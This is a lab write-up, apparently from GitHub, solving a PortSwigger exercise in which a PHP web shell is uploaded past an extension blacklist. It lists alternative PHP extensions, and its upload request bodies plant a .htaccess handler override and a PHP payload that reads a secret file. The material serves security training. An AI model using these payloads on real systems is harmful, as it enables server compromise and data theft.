









# Web shell upload via extension blacklist bypass
# Objective
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis

### Upload request example
||
|:--:| 
| *Normal upload request* |
||
| *Path to uploaded file* |

### Configuration files
Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```
#### Apache
Potentially interesting files containg server configuration:
```
/etc/apache2/apache2.conf     --> Global configuration file
.htaccess                     --> Configuration file for individual directories (to override or add to one or more of the global settings)
```

Example - map `.php` extension (extension can be arbitrary) to be handled as `x-httpd-php`:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```
#### IIS

```
web.config      --> Configuration file for individual directories

<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```


Example - allow `JSON` files to be served to users:
```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```

### PHP payload upload test
File extension `.php` is blacklisted.
||
|:--:| 
| *PHP files are not allowed* |
||
| *PHP files are not allowed* |


## Exploitation
### Uploading different file extension
Alternatives for `.php` extension (source [Portswigger](https://portswigger.net/web-security/file-upload#exploiting-flawed-validation-of-file-uploads)/[HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)):
```
.php5, .shtml
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
```
||
|:--:| 
| *Successful PHP payload upload - .php5 files are allowed* |
||
| *PHP payload was not executed* |

### Uploading .htaccess file and payload with arbitrary extension
Uploading `.htaccess` can influence how files with different extensions will be handled in a given directory.
||
|:--:| 
| *Successful .htaccess file upload* |
||
| *Successful PHP payload upload with arbitrary extension* |
||
| *Triggering uploaded PHP file* |

```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .malicious
```

```
Content-Disposition: form-data; name="avatar"; filename="exploit.malicious"
Content-Type: text/html

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

This could have been done by following payload in `.htaccess` and previous `exploit.php5` file.
```
AddType application/x-httpd-php .php5
```